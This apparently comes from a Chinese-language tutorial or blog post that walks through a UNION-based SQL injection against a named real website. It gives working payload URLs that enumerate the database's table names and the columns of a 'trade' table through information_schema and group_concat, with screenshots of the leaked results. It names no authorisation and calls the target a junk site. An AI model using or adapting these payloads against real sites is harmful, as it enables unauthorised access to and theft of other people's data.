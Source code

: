 ```sql
http://www.bygptech.com/about.php?id=114514 ' UNION ALL SELECT 1,2,3,group_concat(table_name),5,6,7 from information_schema.tables where table_schema=database() -- 垃圾网站
```

然后你会得到`database()`这张表中的所有表名，我们来分析一下🧐：

首先查询这句**sql**，能得到一个关于`databse()`数据库的表，其中有两列需要关注：`TABLE_NAME`，`TABLE_SCHEMA`。这句话从`information_schema`这个信息数据库中查询`tables`表，并从`tables`表中筛选出数据库为`database()`的信息。

```sql
SELECT * FROM information_schema.`TABLES` WHERE table_schema=DATABASE();
```

<img src="https://p.ipic.vip/7b0uos.png" alt="截屏2024-11-24 19.42.43" style="zoom: 25%;" />

通过`group_cancat()`可以将某一列中的值拼成一句，就得到了所有的**table**。

<img src="https://p.ipic.vip/hcdw60.png" alt="截屏2024-11-24 19.44.38" style="zoom:25%;" />

查询到表的集合会被渲染在页面上：

<img src="https://p.ipic.vip/7yv6x9.png" alt="截屏2024-11-24 19.48.53" style="zoom:25%;" />

唯一的问题就是，它不是很简单易读，所以可以这样做来增加它的易读性，也就是在每一个`,`后面增加一个换行。

```sql
http://www.bygptech.com/about.php?id=114514 ' UNION ALL SELECT 1,group_concat(table_name, '<br>'),3,4,5,6,7 from information_schema.tables where table_schema=database() -- 垃圾网站
```

<img src="https://p.ipic.vip/aquozr.png" alt="截屏2024-11-24 19.50.27" style="zoom:25%;" />

> 它们看起来很棒🎉不是吗？

## 嗅探列名



接下来我们将继续使用`group_concat()`来获取这里`user`表中的所有列名。

我们可以通过`information`中的`COLUMNS`这张表来得到所有数据库和数据表的列名信息，包括`user`。

<img src="https://p.ipic.vip/suwu2o.png" alt="截屏2024-11-24 19.56.03" style="zoom: 25%;" />

如果将**TABLE_NAME**限制为具体的表名，再将结果进行`group_concat()`就可以在页面显示所有的列名。

<img src="https://p.ipic.vip/rxnqy5.png" alt="截屏2024-11-24 19.57.47" style="zoom:25%;" />

所以，使用下面的命令来获取该网站的`trade`表中的列名：

```sql
http://www.bygptech.com/about.php?id=114514 ' UNION ALL SELECT 1,group_concat(column_name, '<br>'),3,4,5,6,7 from information_schema.columns where table_name='trade' -- 垃圾网站
```

可以嗅探到列名如下：

<img src="https://p.ipic.vip/834z30.png" alt="截屏2024-11-24 20.02.34" style="zoom:25%;" />
